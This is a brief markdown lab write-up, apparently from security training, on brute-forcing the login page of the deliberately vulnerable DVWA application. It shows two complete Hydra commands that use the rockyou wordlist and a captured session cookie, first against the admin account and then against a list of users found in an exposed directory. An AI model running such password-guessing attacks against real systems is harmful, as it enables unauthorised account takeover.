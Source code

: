 # Admin Account
- using hydra
- hydra needs options
  - wordlist_file
  - [service]
    - by inspecting sourcecode we see alot of get so its probebaly a http-get-form
  - target_URI
    - The full target URL.
    - Any parameters
    - Failed login message.
    - first two can be found using burp by intercipting the request
    - last req can be found by typing wrong password or user to the web page
  - give a way for Hydra to authenticate to our target page
    - Cookies
    - examining the cookies our browser has by Firefox developer web console (Control+Shift+K)
    - entering the string document.cookie
    - two fields, security and PHPSESSID. security is our current security setting, "low". PHPSESSID is our session ID, which is actually what we need
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.206.128 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low; PHPSESSID=9cd4a8a97889ff80bb8ac41154a0a16d:incorrect" -V 
```
**Other Accounts**
- after we logged in there is and image we inspect it and we see a directory
- **http://192.168.206.128/dvwa/hackable/users/admin.jpg**
- we go to the users and we see alist of valid users
- put the users in alist and run hydra again with the list made and we got all thier passwors
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.206.128 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low; PHPSESSID=9cd4a8a97889ff80bb8ac41154a0a16d:incorrect"
```


